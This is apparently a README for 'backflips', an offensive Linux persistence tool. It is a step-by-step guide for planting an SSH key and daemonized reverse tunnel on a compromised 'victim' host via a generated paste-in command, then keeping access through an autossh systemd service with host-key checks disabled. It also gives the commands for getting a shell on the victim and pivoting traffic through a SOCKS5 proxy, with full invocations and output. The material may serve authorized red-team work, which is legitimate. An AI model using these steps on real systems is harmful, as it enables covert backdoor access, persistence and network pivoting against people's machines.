 # Linux backflips

## `make_backflip.py`

runs on the attack machine that gives the cut-n-paste command to
run on victim

## `implant.py`

embedded in `install_implant.py` that daemonizes and makes ssh
connections. Note that the current implementation uses
`subprocess.Popen` with `shell=True`, which will cause an `execve`
with `sh -c` to appear in logs.

## `install_implant.py`

template of script that will be encoded and outputed as the
cut-n-paste command by `make_backflip.py`

# How to Setup a Backflip

In our examples, our victim is using the username `ubuntu` with a hostname of `markus-laptop` 
and our proxy01 external IP is at 10.50.0.1. 
We setup our reverse port-forwards are on ports 4000 onwards and our socks proxies are on ports 5000 onwards

1. Get a shell on victim host

1. run `make_backflip.py` on the attack host

	The invocation is `make_backflip.py <username> <victim-hostname> <c2_fqdn/ip> <reverse listen port>`.

	username: Username of the victim you are compromising. Stored locally in /opt/backflips on a proxy

	victim_host: Hostname of the MacOS host you are compromising. Stored locally in /opt/backflips on a proxy

	c2_fqdn/ip: The IP address or domain of the edge sketch node the backflip will connect through

	reverse listen port port: Port that forwards back to the victim (tcp/22). Use a range of 4000 and upwards. Track this on the Table for tracking backflips in an engagements infra.

	Assuming the victim username is ubuntu, hostname is markus-laptop and victim ip given
	above, and listen port 4000:

		sudo ./make_backflip.py ubuntu markus-laptop 10.50.0.1 4000

	This will make port 4000 on proxy01 with a remote connection to
	10.0.0.1 on 22 when the command that is outputed is run on the
	victim. This will also create a keypair on the attack machine in
	`/opt/backflip/keys` with the format `<username>-<victim-hostname>-<attacker-ip>`.
	Note that you will need to allocate a new port with each blackflip
	created.

1. run the command that `make_backflip.py` outputs on the victim

   You should see output like:

		[+] keypath: /home/ubuntu/.ssh/id_rsab
		[+] wrote private key: /home/ubuntu/.ssh/id_rsab
		[+] wrote public key: /home/ubuntu/.ssh/id_rsab.pub
		[+] wrote to ~/.ssh/authorized_keys
		[+] started daemonized tunnel
		[*] waiting one minute for tunnel to come up...
		[+] tunnel running

1. run `install_autossh_backflip.py` on the attack host

	`install_autossh_backflip.py` will create a systemd service to initiate the ssh
	connection to the victim and reverse port-forward a connection to
	their ssh daemon on the attack system. Additionally, it will setup a
	SOCKS5 proxy listening on a port you specify. As above, it is
	important to note which SOCKS port you are using and each backflip
	will require a unique one.

	In this example, we setup a persistant ssh connection with reverse
	forward as well as a socks proxy on port 5000:

		sudo ./install_autossh_backflip.py 4000 5000 /opt/backflips/keys/ubuntu-markus-laptop-10.50.0.1
		contents:
		[Unit]
		Description=ssh backflip to 4000
		After=network.target auditd.service

		[Service]
		ExecStart=/usr/bin/autossh -oServerAliveInterval=30 -oServerAliveCountMax=5 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking=no -oBatchMode=yes -n -N -D :5000 -i /opt/backflips/keys/ubuntu-markus-laptop-10.50.0.1 -p4000 ubuntu@localhost

		[Install]
		WantedBy=multi-user.target

		Created symlink /etc/systemd/system/multi-user.target.wants/backflip-4000-5000.service → /etc/systemd/system/backflip-4000-5000.service.

	You can see that the proxy and ssh backflip are up:

		$ sudo netstat -lntp | grep -E "4000|5000"
		tcp        0      0 0.0.0.0:4000            0.0.0.0:*               LISTEN      20612/sshd: flip
		tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      20693/ssh
		tcp6       0      0 :::4000                 :::*                    LISTEN      20612/sshd: flip
		tcp6       0      0 :::5000                 :::*                    LISTEN      20693/ssh

	Notice that ssh is listening on 0.0.0.0, meaning that these services
	are available throughout the subnet.

# How to Use a Backflip

There are two primary ways to use a backflip: shell access and proxy access.

## Get a Shell

`/opt/backflips/keys` contains the necessary  ssh keypairs to ssh into
the victim machine. However, the permissions on the directory are such
that a normal user cannot use them. Each key to be used must be copied
to your home directory with permissions and ownership as SSH
expects. In our example:
```
sudo cp /opt/backflips/keys/ubuntu-markus-laptop-10.50.0.1 ~/.ssh/
sudo chown $UID:$(id -g) ~/.ssh/ubuntu-markus-laptop-10.50.0.1
chmod 600 ~/.ssh/ubuntu-markus-laptop-10.50.0.1
```

Note, the user will be the same user as used above to setup the
backflip.

The following will reward you with a shell on the victim:
```
ssh -i ~/.ssh/ubuntu-markus-laptop-10.50.0.1 -p 4000 ubuntu@127.0.0.1
```

or just do it as root
```
sudo ssh -i ~/.ssh/ubuntu-markus-laptop-10.50.0.1 -p 4000 ubuntu@127.0.0.1
```

## Use a SOCKS5 Proxy

In our example above, there is a SOCKS5 proxy running on
port 5000. The most practical way to use it is with a browser plugin
such as foxyproxy or switchyomega. However, it is also available for
command line tools with the help of a proxy LD_PRELOAD library such as
`proxychains` or `tsocks`.

For example, a `proxychains.conf` in the current working directory
with contents as such:

	strict_chain
	# Quiet mode (no output from library)
	#quiet_mode
	proxy_dns

	# Some timeouts in milliseconds
	tcp_read_time_out 15000
	tcp_connect_time_out 8000

	[ProxyList]
	socks5  127.0.0.1 5000

We can verify that our SOCKS proxy works with curl as we see our
victim IP instead of our attack IP:

```
$ proxychains curl ifconfig.me; echo
ProxyChains-3.1 (http://proxychains.sf.net)
|DNS-request| ifconfig.me
|S-chain|-<>-127.0.0.1:5000-<><>-4.2.2.2:53-<><>-OK
|DNS-response| ifconfig.me is 216.239.32.21
|S-chain|-<>-127.0.0.1:5000-<><>-216.239.32.21:80-<><>-OK
10.0.0.1
```
